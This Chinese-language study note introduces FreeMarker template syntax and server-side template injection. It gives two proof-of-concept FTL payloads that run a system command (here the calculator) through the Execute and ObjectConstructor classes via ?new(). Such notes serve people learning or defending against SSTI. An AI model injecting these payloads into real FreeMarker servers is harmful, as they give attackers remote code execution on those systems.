


## FreeMarker介绍
FreeMarker 是一款模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本(HTML网页，电
子邮件，配置文件，源代码等)的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员
可以嵌入他们所开发产品的组件。



ftl由以下部分组成
- 文本：文本会照着原样来输出。

- 插值：这部分的输出会被计算的值来替换。插值由 ${ and } 所分隔(或者 #{ and } ，这种风格
已经不建议再使用了；（http://freemarker.foofun.cn/ref_depr_numerical_interpo
lation.html）)。

- FTL 标签：FTL标签和HTML标签很相似，但是它们却是给FreeMarker的指示， 而且不会打印在输
出内容中。

- 注释：注释和HTML的注释也很相似，但它们是由 <#-- 和 --> 来分隔的。注释会被FreeMarker直
接忽略， 更不会在输出内容中显示


## 模板注入漏洞
SSTI （Server-Side Template Injection，服务器端模板注入），广泛来说是在模板引擎解析模板时，可
能因为代码实现不严谨，存在将恶意代码注入到模板的漏洞。这种漏洞可以被攻击者利用来在服务器端
执行任意代码，造成严重的安全威胁。

内建函数`new`可以创建一个继承自`freemarker.template.TemplateModel`类的对象  
以下代码会调用MyModel构造方法 

`myModel：<#assign myModel="org.example.model.MyModel"?new()>`

poc1:
```html
弹计算器：<#assign value="freemarker.template.utility.Execute"?new()>
${value("calc")}
```
poc2:
```html
弹计算器2：<#assign value="freemarker.template.utility.ObjectConstructor"?new()>
${value("java.lang.ProcessBuilder","Calc").start()}
```

待补充：  
漏洞触发流程

## 参考项目

- [模板注入漏洞freemarker](http://39.106.93.218/2023/10/15/%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9Efreemarker/)
- [FreeMarker入门到简要分析模版注入](https://xz.aliyun.com/t/12637)